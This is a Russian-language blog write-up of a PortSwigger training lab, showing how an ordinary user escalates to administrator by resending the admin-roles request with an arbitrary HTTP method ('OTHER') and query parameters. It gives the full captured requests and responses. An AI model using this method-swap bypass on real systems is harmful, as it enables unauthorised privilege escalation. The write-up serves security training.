 ```yaml
---
title: "Method-based access control can be circumvented"
date: 2025-07-18
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/access-control/lab-method-based-access-control-can-be-circumvented"
classes: wide
---
```


Известны креды от аккаунта администратора `administrator:admin`. Для решения нужно повысить свой аккаунт до администратора. Для входа можно использовать данные `wiener:peter`.

```
https://0a0f00da04e7a5ec8059a95d005600e3.web-security-academy.net/
```

## Solution

Итак, начну по порядку. Залогинюсь в личный кабинет админа, чтобы собрать пример запроса:

```http
POST /admin-roles HTTP/2
Host: 0a0f00da04e7a5ec8059a95d005600e3.web-security-academy.net
Cookie: session=pTr8IOmnMWU0CqHp6LIu9EYyhkkyWaS5
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a0f00da04e7a5ec8059a95d005600e3.web-security-academy.net/admin
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: https://0a0f00da04e7a5ec8059a95d005600e3.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=carlos&action=upgrade
```

Пример собрали. Теперь возвращаюсь к жизни обычного смертного. Подставляю другое значение сессии, ибо и дурак сможет выполнять команды от лица админа) Подставлю свой логин в поле `username`. Как и ожидалось — запрет:

```http
HTTP/2 401 Unauthorized
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"Unauthorized"
```

Попробую изменить метод на `OTHER`:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 30

"Missing parameter 'username'"
```

А вот это уже интереснее:

```http
OTHER /admin-roles?username=wiener&action=upgrade HTTP/2
Host: 0a0f00da04e7a5ec8059a95d005600e3.web-security-academy.net
Cookie: session=LQVLBuPECrAuzyle1GdiH47BrNf1p8Nh
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a0f00da04e7a5ec8059a95d005600e3.web-security-academy.net/admin
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Origin: https://0a0f00da04e7a5ec8059a95d005600e3.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Ндаа...

```http
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Я думал, что будет какой-нибудь специфичный метод. Или хотя бы `PUT`. Но лаба решена, чего жаловаться то?)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_Method-based_access_control_can_be_circumvented/1.png){: height="200" .align-center}